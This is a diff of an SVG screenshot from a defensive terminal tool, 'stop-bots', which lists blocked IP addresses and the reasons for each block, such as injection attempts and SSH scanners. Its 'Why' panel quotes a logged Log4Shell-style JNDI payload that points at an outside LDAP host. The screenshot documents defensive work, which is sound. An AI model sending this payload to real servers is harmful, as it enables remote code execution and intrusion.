

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 931 384" width="931" height="384" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,'DejaVu Sans Mono',monospace" font-size="14">
  <rect width="100%" height="100%" rx="8" fill="#12161c" />
  <rect x="20.4" y="174.0" width="226.8" height="18.0" fill="#10262a" />
  <rect x="247.2" y="174.0" width="58.8" height="18.0" fill="#10262a" />
  <rect x="306.0" y="174.0" width="184.8" height="18.0" fill="#10262a" />
  <rect x="490.8" y="174.0" width="168.0" height="18.0" fill="#10262a" />
  <rect x="658.8" y="174.0" width="252.0" height="18.0" fill="#10262a" />
  <text x="12.0" y="25.5" fill="#2ee6d6" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">stop-bots</text>
-   <text x="87.6" y="25.5" fill="#6b7c8c" textLength="117.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 0.9.0  web-01</text>
+   <text x="87.6" y="25.5" fill="#6b7c8c" textLength="126.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 0.10.0  web-01</text>
  <text x="12.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">1</text>
  <text x="28.8" y="43.5" fill="#6b7c8c" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Dashboard</text>
  <text x="129.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">2</text>
  <text x="146.4" y="43.5" fill="#6b7c8c" textLength="100.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Bot settings</text>
  <text x="272.4" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">3</text>
  <text x="289.2" y="43.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Firewall</text>
  <text x="381.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">4</text>
  <text x="398.4" y="43.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">NGINX</text>
  <text x="465.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">5</text>
  <text x="482.4" y="43.5" fill="#2ee6d6" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Blocks</text>
  <text x="558.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
  <text x="574.8" y="43.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Help</text>
  <text x="852.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">v</text>
  <text x="860.4" y="43.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> simple</text>
  <text x="12.0" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">status</text>
  <text x="79.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="96.0" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">kernel</text>
  <text x="163.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="171.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> reboot  </text>
  <text x="247.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="255.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> script  </text>
  <text x="331.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="339.6" y="61.5" fill="#c8d0da" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> nginx  </text>
  <text x="406.8" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="423.6" y="61.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">files</text>
  <text x="482.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="499.2" y="61.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">schedule</text>
  <text x="583.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="600.0" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">disk</text>
  <text x="650.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="667.2" y="61.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">database</text>
  <text x="751.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="768.0" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">logs</text>
  <text x="818.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="835.2" y="61.5" fill="#6b7c8c" textLength="84.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">log format</text>
  <text x="12.0" y="79.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">5 rule(s)</text>
  <text x="87.6" y="79.5" fill="#c8d0da" textLength="151.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> from every source</text>
  <text x="238.8" y="79.5" fill="#6b7c8c" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">   f cycles the source</text>
  <text x="12.0" y="97.5" fill="#6b7c8c" textLength="487.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/ searches by address; an address finds the range it is in</text>
  <text x="12.0" y="115.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Not listed: 0 SSH-login and 0 trusted allow(s), and the downloaded lists (Dashboard). 0 address(es) unblocke</text>
  <text x="12.0" y="151.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">┌</text>
  <text x="20.4" y="151.5" fill="#2ee6d6" textLength="142.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold"> Blocks 1–5 of 5 </text>
  <text x="163.2" y="151.5" fill="#2ee6d6" textLength="756.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">─────────────────────────────────────────────────────────────────────────────────────────┐</text>
  <text x="12.0" y="169.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="169.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 192.0.2.201               </text>
  <text x="247.2" y="169.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="169.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">by hand (TUI)         </text>
  <text x="490.8" y="169.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  permanent </text>
  <text x="910.8" y="169.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="187.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="187.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">▎198.51.100.230            </text>
  <text x="247.2" y="187.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">block  </text>
  <text x="306.0" y="187.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Injection attempts    </text>
  <text x="490.8" y="187.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">  1m ago  for 7d    </text>
  <text x="658.8" y="187.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">198.51.100.230 - - [10/Sep/202</text>
  <text x="910.8" y="187.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="205.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="205.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 203.0.113.9               </text>
  <text x="247.2" y="205.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="205.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Probe paths           </text>
  <text x="490.8" y="205.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="205.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">203.0.113.9 - - [10/Sep/2025:0</text>
  <text x="910.8" y="205.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="223.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="223.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 198.51.100.17             </text>
  <text x="247.2" y="223.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="223.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">SSH scanners          </text>
  <text x="490.8" y="223.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="223.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Sep 10 04:12:33 host sshd[2211</text>
  <text x="910.8" y="223.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="241.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="241.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 192.0.2.44                </text>
  <text x="247.2" y="241.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="241.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">SSH scanners          </text>
  <text x="490.8" y="241.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="241.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Sep 10 04:11:07 host sshd[2203</text>
  <text x="910.8" y="241.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="259.5" fill="#2ee6d6" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">└──────────────────────────────────────────────────────────────────────────────────────────────────────────┘</text>
  <text x="12.0" y="277.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">┌ Why ─────────────────────────────────────────────────────────────────────────────────────────────────────┐</text>
  <text x="12.0" y="295.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="295.5" fill="#c8d0da" textLength="117.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">198.51.100.230</text>
  <text x="138.0" y="295.5" fill="#c8d0da" textLength="772.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> — Injection attempts, added 1m ago                                                         </text>
  <text x="910.8" y="295.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="313.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="313.5" fill="#c8d0da" textLength="890.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">198.51.100.230 - - [10/Sep/2025:05:02:14 +0000] "GET /?x=${jndi:ldap://203.0.113.5/a} HTTP/1.1" 400 157   </text>
  <text x="910.8" y="313.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="331.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="331.5" fill="#c8d0da" textLength="890.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">"-" "curl/8.5.0"                                                                                          </text>
  <text x="910.8" y="331.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="349.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">└──────────────────────────────────────────────────────────────────────────────────────────────────────────┘</text>
  <text x="12.0" y="367.5" fill="#2ee6d6" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Blocks</text>
  <text x="79.2" y="367.5" fill="#2ee6d6" textLength="16.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">↑↓</text>
  <text x="104.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">move</text>
  <text x="154.8" y="367.5" fill="#2ee6d6" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Enter</text>
  <text x="205.2" y="367.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">unblock</text>
  <text x="280.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">f</text>
  <text x="297.6" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">source</text>
  <text x="364.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/</text>
  <text x="381.6" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">search</text>
  <text x="448.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">:</text>
  <text x="465.6" y="367.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">commands</text>
  <text x="549.6" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
  <text x="566.4" y="367.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">explain</text>
  <text x="642.0" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">t</text>
  <text x="658.8" y="367.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">theme</text>
  <text x="717.6" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">q</text>
  <text x="734.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">quit</text>
</svg>
